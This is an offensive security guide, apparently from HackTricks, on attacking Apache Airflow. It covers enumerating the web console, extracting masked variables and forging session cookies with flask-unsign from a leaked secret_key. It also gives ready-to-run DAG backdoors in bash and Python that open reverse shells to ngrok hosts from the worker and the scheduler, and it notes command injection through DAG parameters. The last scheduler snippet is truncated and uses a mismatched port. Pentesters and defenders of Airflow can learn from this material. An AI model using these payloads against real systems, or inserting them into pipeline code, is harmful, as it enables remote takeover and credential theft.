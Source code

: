 # Apache Airflow Security

{{#include ../../banners/hacktricks-training.md}}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) serves as a platform for **orchestrating and scheduling data pipelines or workflows**. The term "orchestration" in the context of data pipelines signifies the process of arranging, coordinating, and managing complex data workflows originating from various sources. The primary purpose of these orchestrated data pipelines is to furnish processed and consumable data sets. These data sets are extensively utilized by a myriad of applications, including but not limited to business intelligence tools, data science and machine learning models, all of which are foundational to the functioning of big data applications.

Basically, Apache Airflow will allow you to **schedule the execution of code when something** (event, cron) **happens**.

### Local Lab

#### Docker-Compose

You can use the **docker-compose config file from** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) to launch a complete apache airflow docker environment. (If you are in MacOS make sure to give at least 6GB of RAM to the docker VM).

#### Minikube

One easy way to **run apache airflo**w is to run it **with minikube**:

```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```

### Airflow Configuration

Airflow might store **sensitive information** in its configuration or you can find weak configurations in place:

{{#ref}}
airflow-configuration.md
{{#endref}}

### Airflow RBAC

Before start attacking Airflow you should understand **how permissions work**:

{{#ref}}
airflow-rbac.md
{{#endref}}

### Attacks

#### Web Console Enumeration

If you have **access to the web console** you might be able to access some or all of the following information:

- **Variables** (Custom sensitive information might be stored here)
- **Connections** (Custom sensitive information might be stored here)
  - Access them in `http://<airflow>/connection/list/`
- [**Configuration**](./#airflow-configuration) (Sensitive information like the **`secret_key`** and passwords might be stored here)
- List **users & roles**
- **Code of each DAG** (which might contain interesting info)

#### Retrieve Variables Values

Variables can be stored in Airflow so the **DAGs** can **access** their values. It's similar to secrets of other platforms. If you have **enough permissions** you can access them in the GUI in `http://<airflow>/variable/list/`.\
Airflow by default will show the value of the variable in the GUI, however, according to [**this**](https://marclamberti.com/blog/variables-with-apache-airflow/) it's possible to set a **list of variables** whose **value** will appear as **asterisks** in the **GUI**.

![](<../../images/image (164).png>)

However, these **values** can still be **retrieved** via **CLI** (you need to have DB access), **arbitrary DAG** execution, **API** accessing the variables endpoint (the API needs to be activated), and **even the GUI itself!**\
To access those values from the GUI just **select the variables** you want to access and **click on Actions -> Export**.\
Another way is to perform a **bruteforce** to the **hidden value** using the **search filtering** it until you get it:

![](<../../images/image (152).png>)

#### Privilege Escalation

If the **`expose_config`** configuration is set to **True**, from the **role User** and **upwards** can **read** the **config in the web**. In this config, the **`secret_key`** appears, which means any user with this valid they can **create its own signed cookie to impersonate any other user account**.

```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```

#### DAG Backdoor (RCE in Airflow worker)

If you have **write access** to the place where the **DAGs are saved**, you can just **create one** that will send you a **reverse shell.**\
Note that this reverse shell is going to be executed inside an **airflow worker container**:

```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
    dag_id='rev_shell_bash',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = BashOperator(
        task_id='run',
        bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
    )
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

with DAG(
    dag_id='rev_shell_python',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python',
        python_callable=rs,
        op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
    )
```

#### DAG Backdoor (RCE in Airflow scheduler)

If you set something to be **executed in the root of the code**, at the moment of this writing, it will be **executed by the scheduler** after a couple of seconds after placing it inside the DAG's folder.

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
    dag_id='rev_shell_python2',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python2',
        python_callable=rs,
        op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```

#### DAG Creation

If you manage to **compromise a machine inside the DAG cluster**, you can create new **DAGs scripts** in the `dags/` folder and they will be **replicated in the rest of the machines** inside the DAG cluster.

#### DAG Code Injection

When you execute a DAG from the GUI you can **pass arguments** to it.\
Therefore, if the DAG is not properly coded it could be **vulnerable to Command Injection.**\
That is what happened in this CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

All you need to know to **start looking for command injections in DAGs** is that **parameters** are **accessed** with the code **`dag_run.conf.get("param_name")`**.

Moreover, the same vulnerability might occur with **variables** (note that with enough privileges you could **control the value of the variables** in the GUI). Variables are **accessed with**:

```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```

If they are used for example inside a a bash command, you could perform a command injection.

{{#include ../../banners/hacktricks-training.md}}




